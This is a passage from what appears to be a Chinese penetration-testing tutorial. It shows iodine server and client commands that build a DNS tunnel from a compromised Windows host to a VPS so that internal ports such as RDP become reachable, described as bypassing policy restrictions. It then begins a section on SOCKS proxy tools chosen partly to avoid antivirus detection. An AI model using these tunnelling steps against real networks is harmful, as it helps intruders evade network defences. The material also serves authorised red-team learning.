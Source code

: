 Windows 可以直接到官网下载，下载地址：https://code.kryo.se/iodine/，服务端名称是 iodined.exe，客户端是
iodine.exe

## 3、使用

这里服务端使用的是 Linux，服务端命令如下：

    
    
    sudo iodined -f -c -P teamssix 192.168.77.1 dc.teamssix.com -DD
    
    
     -f        在前台运行  
     -c        不检查传入请求的客户端 IP 地址  
     -P        客户端与服务端之间的连接密码  
     -D        调试级别，-D 表示第一级，-DD 表示第二级，依此类推  
      
     192.168.77.1 是自己自定义的局域网虚拟 IP 地址。

这里客户端使用的是 Windows，Windows 客户端上除了要有 iodine 相关文件外，还需要安装 tap 网卡驱动程序，这里我百度找了一个下载地址
http://www.qudong51.net/qudong/981.html

打开下载好的 tap 网卡驱动程序，一直下一步下一步安装就行。

然后就可以启动客户端程序了，注意下载下来的 dll 文件要和 exe 在一个目录下，不能只复制一个 exe 到目标主机上，而且要以管理员权限运行下面的命令。

    
    
    .\iodine.exe -f -r -P teamssix dc.teamssix.com
    
    
    -r        iodine 有时会自动将 DNS 隧道切换成 UDP 通道，使用 -r 命令可以强制让 iodine 在任何情况下都使用 DNS 隧道

如果出现 `Connection setup complete, transmitting data.` 就表示 DNS 隧道就已经建立了。

这时如果去 ping 服务端自定义的虚拟 IP 也是可以 ping 通的。

![](https://gitee.com/fuli009/images/raw/master/public/20211027204339.png)

假如这里内网机器分配到了 192.168.77.2 这个 IP ，因为处在一个局域网中，所以 VPS 直接访问 192.168.77.2 的 3389、80
等端口就可以直接访问到内网机器的相关端口了，同样的内网主机也可以访问 VPS 的 22 端口等等，至此便绕过了策略限制。

# 0x10 ew 的使用

## 1、Socks 代理工具介绍

Socks 代理可以理解成升级版的 lcx，关于 lcx 的用法可以看我之前的文章：

https://teamssix.com/year/210528-130449.html

但是 lcx 毕竟年代久远，现在的杀软基本也都能识别到了，因此在实战中不太推荐使用 lcx ，更推荐使用这些 socks 代理工具。

常见的 socks 代理工具有 ew、termite、frp、nps、sSocks、reGeorg、Neo-
reGeorg、SocksCap、Proxifier、ProxyChains 等等，不同的工具适合使用的场景和方法都有所不同。

因为在这其中有些工具笔者较经常使用，所以这里主要记录下 ew、frp、nps 的使用方法，本篇文章主要记录 ew 的使用，后续文章将更新 frp、nps
的使用。

开始之前，先理解下正向代理和反向代理的区别。
